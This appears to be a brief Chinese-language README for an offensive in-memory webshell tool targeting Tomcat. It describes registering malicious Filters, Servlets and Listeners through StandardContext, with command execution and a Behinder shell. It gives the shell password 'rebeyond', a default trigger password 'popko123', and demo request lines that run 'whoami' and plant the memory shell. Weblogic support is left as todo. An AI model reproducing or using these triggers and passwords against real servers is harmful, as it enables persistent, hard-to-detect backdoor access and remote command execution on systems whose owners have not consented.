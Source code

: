# 内存马使用

实现两个功能

- 命令执行回显

- 冰蝎shell（密码rebeyond）

> 冰蝎需实现HttpServlet内存马（替换pageContext为HttpServletRequest+HttpServletResponse）
>
> 以及另一种获取org.apache.coyote.Request（todo）

## Tomcat
### TomcatContextMemShell

> 通过获取StandardContext注册Filter、Servlet、Listener
>
> 注册的注册Filter、Servlet、Listener使用controller反射调用mpwd（默认值为popko123）对应的方法

#### demo

```
favicon1.ico?popko123=getandout&servlet_cmd=whoami
favicon1.ico?popko123=memshellbx&servlet_cmd=memshell
```

## Weblogic

todo...